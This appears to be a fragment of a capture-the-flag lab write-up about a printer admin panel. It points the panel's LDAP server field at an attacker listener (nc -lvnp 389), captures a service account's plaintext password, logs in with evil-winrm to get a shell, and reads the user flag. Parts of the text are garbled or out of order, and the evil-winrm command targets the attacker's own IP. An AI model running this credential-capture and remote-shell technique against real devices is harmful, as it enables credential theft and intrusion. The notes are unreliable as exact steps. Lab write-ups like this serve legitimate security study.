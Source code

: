 we see the domain name retirn

set up a listener on port 389 

and specify tunnel ip in the settings field

however nothing happens
```html
<form action="" method="POST">
        <table>
          <tbody><tr>
            <td>Server Address</td>
            <td><input type="text" name="ip" value="printer.return.local"></td>
          </tr>
          <tr>
            <td>Server Port</td>
            <td><input type="text" value="389"></td>
          </tr>
          <tr>
            <td>Username</td>
            <td><input type="text" value="svc-printer"></td>
          </tr>
          <tr>
            <td>Password</td>
            <td><input type="text" value="*******"></td>
          </tr>
          <tr>
            <td colspan="3"><input type="submit" value="Update"></td>
          </tr>
        </tbody></table>
      </form>
```

however lets try using evilwinrm with credentials anyway


retrying on got

```
└─# nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.108] 51618
0*`%return\svc-printer�
                       1edFg43012!!

```

evil winrm
```
evil-winrm -i 10.10.14.17 -u svc-printer -p '1edFg43012!!'

```


got a shell

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type ../Desktop/user.txt
bc814b4190a6999bd54a5e1479f11475
```
